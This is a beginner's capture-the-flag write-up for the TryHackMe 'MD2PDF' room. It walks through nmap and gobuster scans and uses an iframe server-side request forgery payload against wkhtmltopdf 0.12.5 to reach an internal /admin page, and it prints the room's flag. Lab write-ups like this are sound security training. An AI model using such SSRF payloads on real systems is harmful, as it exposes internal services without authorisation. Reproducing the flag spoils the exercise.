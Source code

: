 **This is my first ctf**


![FirstPyProFinal](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/ec476ee4-8c06-4e87-b329-8c04e57859ce)

### MD2PDF TryHackMe

### Difficulty = Easy

###  Description: Hello Hacker! TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF. This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Nmap Scan:

```
└─$ nmap -sCV 10.10.174.101 -p22,80,5000 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 01:23 WAT
Nmap scan report for 10.10.174.101
Host is up.

PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   filtered http
5000/tcp filtered upnp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds

```

Checking the web server on port 80 shows that it converts markdown file to pdf
![image](https://user-images.githubusercontent.com/113513376/218225529-7bc01174-6686-4a9b-a582-8469db003229.png)

So if i include things markdown uses it will be converted to pdf
![image](https://user-images.githubusercontent.com/113513376/218227544-e3e7083b-0c3b-4db5-a0b8-108c3f598587.png)
![image](https://user-images.githubusercontent.com/113513376/218227568-a270702e-dd8f-47f8-a238-ed28d7403bbb.png)


Now i'll download the generated pdf file to check out the metadata

```
┌──(mark㉿haxor)-[~/Desktop]
└─$ file document.pdf                       
document.pdf: PDF document, version 1.4, 0 pages
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop]
└─$ exiftool document.pdf
ExifTool Version Number         : 12.44
File Name                       : document.pdf
Directory                       : .
File Size                       : 13 kB
File Modification Date/Time     : 2023:02:11 01:25:32+01:00
File Access Date/Time           : 2023:02:11 01:25:33+01:00
File Inode Change Date/Time     : 2023:02:11 01:25:32+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.5
Producer                        : Qt 4.8.7
Create Date                     : 2023:02:11 00:19:54Z
Page Count                      : 1
Page Mode                       : UseOutlines
```

Ok so we see the creator name `wkhtmltopdf 0.12.5` I'll search google to know if there's publicly known exploit it
![image](https://user-images.githubusercontent.com/113513376/218226141-d361cfa9-bc45-442a-92c7-d03f316d72d1.png)
![image](https://user-images.githubusercontent.com/113513376/218226171-ea30edb1-b3d9-42a5-aea6-5ea24d8c4e67.png)

Reading about the [exploit](https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently) shows that we can use iframe tag and perform Server Side Request Forgery

```
Payload: <iframe src="http://localhost/" width="1000" height="2000">`
```

But using that payload is not what we want cause we need the flag not the web page of the web server running on port 80

Now i'll run gobuster to see if there's any interesting thing

```
└─$ gobuster dir -u http://10.10.174.101/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.174.101/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/02/11 01:05:06 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
Progress: 4612 / 4615 (100.00%)
===============================================================
2023/02/11 01:07:12 Finished
===============================================================
```

There's an admin directory which when accessed gives 403
![image](https://user-images.githubusercontent.com/113513376/218227204-d6591ee0-3b2d-4688-abe3-5e21432bd0dd.png)

Cool so now what we can do is to leverage the SSRF vulnerability and view the admin directory on port 5000
![image](https://user-images.githubusercontent.com/113513376/218227301-9bc2b6b5-1615-4153-a05b-d7ec3e220c81.png)

```
Payload: <iframe src="http://localhost:5000/admin" width="1000" height="2000">`
```

On submitting the payload we get the flag xD
![image](https://user-images.githubusercontent.com/113513376/218227325-9ea44126-4fc5-493b-88e7-914836fb58f9.png)

```
Flag: flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
